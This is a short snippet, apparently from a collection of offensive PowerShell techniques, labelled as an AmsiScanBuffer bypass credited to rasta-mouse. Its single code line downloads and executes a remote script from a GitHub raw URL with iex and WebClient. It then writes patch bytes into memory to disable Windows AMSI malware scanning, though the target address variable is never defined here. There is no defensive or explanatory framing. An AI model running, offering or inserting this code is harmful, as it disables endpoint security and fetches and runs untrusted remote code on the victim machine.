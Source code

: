 ### AmsiScanBuffer by rasta-mouse (1.ps1)

```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/amsi/master/1.ps1");$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3);[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

